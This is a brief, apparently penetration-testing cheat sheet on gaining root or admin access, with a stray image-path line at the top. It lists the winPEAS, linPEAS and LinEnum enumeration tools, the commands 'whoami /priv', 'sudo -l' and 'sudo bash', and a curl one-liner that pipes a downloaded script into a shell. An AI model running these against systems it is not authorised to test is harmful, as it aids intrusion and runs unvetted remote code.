 # Become root / admin
## Windows
- [winPEAS](https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md)
- ` whoami /priv `
## Linux
- [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

`curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh`
- [LinEnum](https://github.com/rebootuser/LinEnum) (simpler)
- ` sudo -l `
- ` sudo bash `
